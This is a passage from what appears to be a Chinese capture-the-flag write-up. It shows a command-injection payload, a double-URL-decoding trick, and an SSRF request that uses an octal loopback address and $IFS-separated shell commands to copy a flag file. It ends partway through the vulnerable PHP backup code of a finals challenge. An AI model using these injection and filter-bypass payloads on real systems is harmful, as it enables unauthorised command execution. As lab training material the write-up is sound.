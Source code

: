 
`echo 'cmd' >> /tmp/log`  在cmd处插入`';cp /flag /tmp/log;%00`


`@`前的用户名部分会二次解码

![](attachments/Pasted%20image%2020240403085255.png)

八进制绕过本地ip

payload
`http://0177.0.0.1:3000/debug?url=http://%2527@wum0nster;cp$IFS/flag$IFS/tmp/log;%00`

# 总决赛
## Novel

在back.class.php 将内容存储为了php

```PHP
public function backup($filename, $dest){  
    $filename='profile/'.$filename;  
    if(file_exists($filename)){  
       $content=htmlspecialchars(file_get_contents($filename),ENT_QUOTES);  
       $password=$this->random_code();  
       $r['path']=$this->_write($dest, $this->_create($password, $content));  
       $r['password']=$password;  
       echo json_encode($r);  
    }  
}  
  
/* 先验证保证为备份文件后,再保存为私藏文件 */
private function _write($dest, $content){  
    $f1=$dest;  
    $f2='private/'.$this->random_code(10).".php";  
  
    $stream_f1 = fopen($f1, 'w+');  
  
    fwrite($stream_f1, $content);  
    rewind($stream_f1);  
    $f1_read=fread($stream_f1, 3000);  
      
```